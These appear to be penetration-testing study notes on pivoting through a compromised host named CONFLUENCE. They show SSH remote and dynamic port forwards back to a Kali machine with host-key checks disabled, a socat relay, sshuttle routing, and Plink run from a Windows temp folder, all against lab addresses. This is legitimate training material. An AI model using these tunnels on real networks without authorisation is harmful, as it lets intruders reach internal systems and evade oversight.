 * -N: specify that we are not running any commands.
* -f: request ssh to go to the background.

```bash
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```

SSH **remote dynamic port forward** as part of our SSH connection from CONFLUENCE to Kali,
- listen on port 9998 on our Kali machine,
- update `/etc/proxychains4.conf`: `socks5 127.0.0.1 9998`

```bash
ssh -N -R 9998 kali@192.168.118.4
```

In situations where we have **direct access to an SSH server**, behind which is a more complex internal network, classic **dynamic port forwarding** might be difficult to manage.

=> **sshuttle** is a tool that turns an SSH connection into something similar to a VPN by setting up local routes that force traffic through the SSH tunnel. However, it requires **root** privileges on the **SSH client** and **Python3** on the **SSH server**.

1. Set up a port forward in a shell on CONFLUENCE (192.168.50.63), listening on port 2222 on the WAN interface and forwarding to port 22 on 10.4.50.215:

```bash
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
```

2. run sshuttle, specifying the SSH connection string, and the **subnets** that we want to tunnel through this connection (10.4.50.0/24 and 172.16.50.0/24)

```bash
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```

## Port Forwarding with Windows Tools

On Windows versions with SSH installed, we will find scp.exe, sftp.exe, ssh.exe, along with other ssh-* utilities in `%systemdrive%\Windows\System32\OpenSSH` location by default.

From the Windows machine, create a remote dynamic port forward to our Kali machine

```bat
ssh -N -R 9998 kali@192.168.118.4
```

### Plink

Before OpenSSH was available on Windows, most network administrators' tools of choice were **PuTTY** and its command-line-only counterpart, **Plink**. (Plink doesn't have is remote **dynamic** port forwarding)

Create a remote port forward using Plink, Port 9833 is opened on the loopback interface of our Kali machine

```bat
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```

